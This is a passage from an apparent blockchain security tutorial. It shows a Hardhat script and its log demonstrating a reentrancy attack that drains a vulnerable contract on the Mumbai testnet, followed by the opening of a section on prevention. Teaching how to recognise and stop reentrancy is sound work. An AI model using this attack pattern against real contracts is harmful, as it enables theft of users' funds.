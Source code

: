 ```js
victimBalance = await vulnerable.getBalance()
hackerBalance = await attack.getBalance()
console.log("The victim has " + victimBalance + " MATICs")
console.log("The hacker has " + hackerBalance + " MATICs")
console.log("-----------------------------------------------")

console.log("The hacker is about to hack()")
overrides = {
    value: ethers.utils.parseEther("0.000000001"),
    from: hacker.address
}
await attack.connect(hacker).hack(overrides)
console.log("-----------------------------------------------")

console.log("The hack is over:")
await sleep(20000)
victimBalance = await vulnerable.getBalance()
hackerBalance = await attack.getBalance()
console.log("The victim has " + victimBalance + " MATICs")
console.log("The hacker has " + hackerBalance + " MATICs")
}
hack()
```
 
You got used to this syntax, right?
The scripts just simulates what was explained above (the Remix part), Nothing more. 
Now if you run
```
npx hardhat run Attack.js --network mumbai
```
You should get a log of the attack, like this:
```
I am the victim and I am deploying my vulnerable contract:
The vulnerable contract was deployed to 0xb2d82069B9dfcD13cD7a8DfC6a7767822Ef04565
-----------------------------------------------
I am the hacker and I am deploying my attack contract:
The attack contract was deployed to 0x1209463c789eA5f50BB2a945420C51dE3d587931
-----------------------------------------------
The victim has 4000000000 MATICs
The hacker has 0 MATICs
-----------------------------------------------
The hacker is about to hack()
-----------------------------------------------
The hack is over:
The victim has 0 MATICs
The hacker has 5000000000 MATICs
```

So We had our fun with the code. But now to the most important thing, how can we prevent such attacks?

## Preventing reentrancy:
There are three standard methods to protect your contracts from such attacks.
